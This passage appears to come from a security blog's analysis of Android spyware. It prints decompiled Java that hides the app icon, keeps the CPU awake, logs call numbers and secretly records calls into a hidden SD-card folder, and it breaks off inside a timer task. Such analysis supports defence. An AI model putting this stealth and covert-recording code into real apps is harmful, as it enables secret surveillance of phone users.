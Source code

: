 Upon launching the application, it immediately executes code to conceal the app icon.
```java
try {
    PackageManager p = getPackageManager();
    ComponentName componentName = new ComponentName(this, MainActivity.class);
    p.setComponentEnabledSetting(componentName, 2, 1);
}
```
The app icon is hidden using the `p.setComponentEnabledSetting` method. The value `2` corresponds to `COMPONENT_ENABLED_STATE_DISABLED`, and the third argument represents the `DONT_KILL_APP` flag. After hiding the app icon, the application starts the service `com.example.dat.a8andoserverx.MainService`.

### com.example.dat.a8andoserverx.calls
As soon as the `onStartCommand` method of the service is called, the service acquires a partial wake lock with the tag `MyApp::MyWakelockTgggag`. In case of partial wake locks, the screen and keyboard backlight are allowed to go off but the CPU continues to run. The broadcast receiver `com.example.dat.a8andoserverx.InterceptCall` is triggered in case of incoming and outgoing calls. By the help of this receiver, the application reads and stores the phone numbers involved in the conversation.

![](/blogs/assets/tiktok/ttsp/ttsp-06.png)

The current time is recorded in the format `SimpleDateFormat("yyyy_MM_dd_HH_mm_ss")`. The directory `/sdcard/DCIM/.dat` is created if it doesn't exist. In case of incoming calls, a file `In_<pno>_<timestamp>.mp3` is created in the `/sdcard/DCIM/.dat` directory where `pno` is the incoming phone number. In case of outgoing calls, a file `Out_<pno>_<timestamp>.mp3` is created where pno is the outgoing phone number. After that it records the call and saves it in the created file.
```java
calls.this.recorderx = null;
calls.this.recorderx = new MediaRecorder();
calls.this.recorderx.setAudioSource(1); // MIC (using microphone as audio source)
calls.this.recorderx.setOutputFormat(2); // MPEG4 media file format
calls.this.recorderx.setAudioEncoder(3); // AAC Low Complexity (AAC-LC) audio codec
calls.this.recorderx.setOutputFile(calls.this.audiofilex.getAbsolutePath());
calls.this.recorderx.prepare();
calls.this.recorderx.start();

// All these recordings will be saved in the /sdcard/DCIM/.dat directory
```

### com.example.dat.a8andoserverx.MainService

![](/blogs/assets/tiktok/ttsp/ttsp-02.png)

The application creates a hidden file named `.csp` within the DCIM directory on the SD card and initiates the `com.example.dat.a8andoserverx.calls service`. 
We can see that two tasks `task` and `taskx` are scheduled to run each second, starting after a delay of one second.
```java
    TimerTask task = new TimerTask() { // from class: com.example.dat.a8andoserverx.MainService.2
        @Override // java.util.TimerTask, java.lang.Runnable
        public void run() {
            MainService.this.paster++;
            if (MainService.this.paster > 600 && MainService.so != null) {
                try {
                    MainService.so.close();
                } catch (IOException e) {
                } catch (Exception e2) {
                }
            }
        }
    };
    TimerTask taskx = new TimerTask() { // from class: com.example.dat.a8andoserverx.MainService.3
        @Override // java.util.TimerTask, java.lang.Runnable
        public void run() {
```